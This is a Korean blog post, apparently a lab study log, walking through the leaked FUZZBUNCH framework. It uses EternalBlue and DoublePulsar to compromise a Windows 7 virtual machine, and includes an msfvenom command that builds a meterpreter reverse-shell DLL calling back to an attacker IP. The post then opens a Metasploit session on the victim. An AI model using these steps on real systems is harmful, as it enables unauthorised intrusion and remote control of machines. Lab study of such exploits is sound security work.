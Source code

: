 ```yaml
---
layout: post
title: FUZZBUNCH
description: "ShadowBroker"
modified: 2017-07-10
tags: [penetration_testing,shadow broker,Metasploit]
categories: [penetration testing]
image:
    feature:
    credit:
    creditlink:
author:
    name: "박준영"
    bio: 아아 BOB되고싶다
    email: pjya0321@naver.com
    github: jy31241
    site: https://www.instagram.com/jypark_321/
---
```


해당 글은 가상환경 에서 실행했습니다.  
쉐도우 프로커가 유출한 FUZZBUNCH 공부 기록  

윈도우XP 에 설정했다.  

필요한 준비물은  

https://github.com/misterch0c/shadowbroker  
쉐도우 브로커 자료 깃허브  
https://www.python.org/download/releases/2.6.6/  
파이썬 2.6  
https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/  
Pywin32 2.6버전  

요로케 3개  
왜 파이썬 2.6을 사용하는지는 잘모르지만 윈10에 2.6깔기 싫어서 가상에다 했다.  

그리고 환경변수 Path에 파이썬 경로 설정해준다.  

설정은 끝났다.  


cmd창에서 shadowbroker-master\windows 경로에 있는 fb.py 를 실행시킨다.  
실행시키기 전에 windows 경로에 listeningposts라는 폴더를 하나 생성해준다.  


![1](assets/postimage/Fuzz1.png)
fb.py를 실행하면 이런 화면이 보이고 순서대로 입력해준다  

타겟아이피 입력  
콜백아이피 입력(공격자 아이피)  
리다이렉션 사용은 알아서 (NO로 했음)  
로그를 기록할 디렉토리  

![2](assets/postimage/Fuzz2.png)

그리고  
프로젝트 인덱스는 대충 숫자 설정해주고  
프로젝트 이름도 설정 해주고   
로그 기록할껀지 말껀지 설정해주면  

퍼즈번치로 들어와짐  

use 명령어 입력하면 모듈들이 나온다  

![3](assets/postimage/Fuzz3.png)

use Eternalblue 을 입력하면 이터널블루가 실행된다.  

다양한 설정들 할꺼냐 안할꺼냐 하는데 그냥 디폴트값 계속 할꺼라서 엔터 눌러주면됨  
445포트는 SMB포트임  
중간에 Mode는 1번 해야 퍼즈번치사용함  

![4](assets/postimage/Fuzz4.png)

방화벽이 켜져있으면 위같은 화면이 나온다.  

![5](assets/postimage/Fuzz5.png)

타겟 을 윈7가상으로 바꾸고 방화벽을 내리고 다시 실행했다  
이번엔 이터널블루 석세스가 뜬다.  

![6](assets/postimage/Fuzz6.png)


칼리에서  

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.254.129 lport=4444 -f dll -o /root/Desktop/kangol.dll  

명령어를 입력해서 악성 dll을 생성한다.  
그리고 그걸 공격하던 xp로 가져온다.  

![8](assets/postimage/Fuzz8.png)

핸들러 하나 설정해준다. 위 dll악성코드와 동일한설정으로 한다.  

![9](assets/postimage/Fuzz9.png)


그리고 메타스플로잇으로 방금만든 핸들러를 실행시켜준다  

![7](assets/postimage/Fuzz7.png)

다시 공격하던 XP로 돌아가서 use Doublepulsar 명령어를 입력해서 더블풀자를 실행한다. 

![10](assets/postimage/Fuzz10.png)

설정들을 디폴트로 해주다가  

중간에 펑션에서 우리가 사용할 악성코드는 DLL이기 때문에 2번 dll을 설정해준다.  
그리고 DLL페이로드 경로는 생성한 악성 DLL의 경로를 넣어준다.  

프로세스 네임을 디폴트값으로 해주면 윈7을 해킹할 때 금방 꺼지기 때문에  
explorer.exe로 설정한다.  

설정은 완료하면 더블풀자 석시드~ 나온다  

![11](assets/postimage/Fuzz11.png)

다시 칼리리눅스로 돌아가서 인터프리터 세션이 하나 실행됬다.  

![12](assets/postimage/Fuzz12.png)

리버싱하던 윈7이라 컴이름이 리버스엔지니어링으로 나온다 ㅇㅅㅇ  

![13](assets/postimage/Fuzz13.png)

sessions -i 1  
을 입력한다.  

그리고 이런저런 명령어를 처보면 해킹이 됬다는것을 알 수 있다.  
![14](assets/postimage/Fuzz14.png)

윈도우7의 바탕화면을 스크린샷 한 모습이다.  
끝  
커버로스님 짱